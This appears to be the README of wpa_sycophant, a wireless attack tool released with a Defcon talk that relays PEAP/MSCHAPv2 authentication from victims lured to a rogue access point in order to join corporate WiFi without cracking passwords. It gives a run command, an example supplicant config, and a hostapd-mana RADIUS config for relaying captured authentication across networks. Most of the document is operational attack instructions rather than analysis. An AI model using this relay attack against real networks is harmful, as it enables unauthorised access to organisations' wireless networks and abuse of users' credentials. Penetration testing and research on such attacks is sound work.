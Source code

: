 

# WPA_Sycophant 
[![Build Status](https://travis-ci.org/Cablethief/wpa_sycophant.svg?branch=master)](https://travis-ci.org/Cablethief/wpa_sycophant)

A tool to relay phase 2 authentication attempts to access corporate wireless without cracking the password. 

This was released as part of a [Defcon 26 talk](https://www.youtube.com/watch?v=eYsGyvGxlpI) and is a component in the MSCHAP relay attack, the other being [Hostapd-Mana](https://github.com/sensepost/hostapd-mana/) with the [enable_sycophant](https://github.com/sensepost/hostapd-mana/wiki/EAP-Relay-with-Sycophant) flag. 

A hub of wireless hacking information is at https://w1f1.net/ where links to other tools may be found. 


## Current support

 - Basic PEAP using MSCHAPv2


## How-To

To use this technique it is required that you run a rogue access point so that a legitimate user will connect to you so that you may relay the authentication attempt to Sycophant. 

To do this with [hostapd-mana](https://github.com/sensepost/hostapd-mana) you add a flag `sycophant_enable` Mana will write down the first part of the challenge response once a user connects. This is picked up by Sycophant to initiate the handshake against the target WiFi. 


Running wpa_sycophant may be done using the script `wpa_sycophant.sh` and the current supported commands are: 

   - `-c` to give it a config file, I suggest modifying the provided example.
   - `-i` to provide the interface to use. 

an example command would be:
    
    sudo ./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlp0s20f0u6


## Example Config

```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


## Dont Relay to yourself

Since you will be running a rogue AP potentialy near by your supplicant there is the possiblity that you will try relay to yourself. To stop this check the MAC/BSSID of your access point and add that to the `bssid_blacklist` of your config. 



## Remote Relay

If you would like to separate the AP and Sycophant so that they are running on separate hosts or you wish to use Enterprise grade equipment. 

This may be done by running MANA in RADIUS only mode. This will create a local RADIUS server that will relay the authentication to the local Sycophant. This allows you to setup your rogue to use that remote RADIUS server and relay credentials over the Internet or other networks.

A example RADIUS server config for MANA with Sycophant enabled is below:

```
interface=<Ethernet Interface>
driver=wired
# If you would like to run on loopback:
#driver=none 

eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=rogue-ca.pem
server_cert=radius.pem
private_key=radius.key
private_key_passwd=

radius_server_clients=hostapd.radius_clients
# Contents of hostapd.radius_clients:
# 0.0.0.0/0 P@ssw0rd

radius_server_auth_port=1812

# -1 = log all messages
logger_syslog=-1
logger_stdout=-1

# 2 = informational messages
logger_syslog_level=1
logger_stdout_level=1

sycophant_enable=1
```

You may then use this remote RADIUS server with any AP that supports RADIUS authentication. 
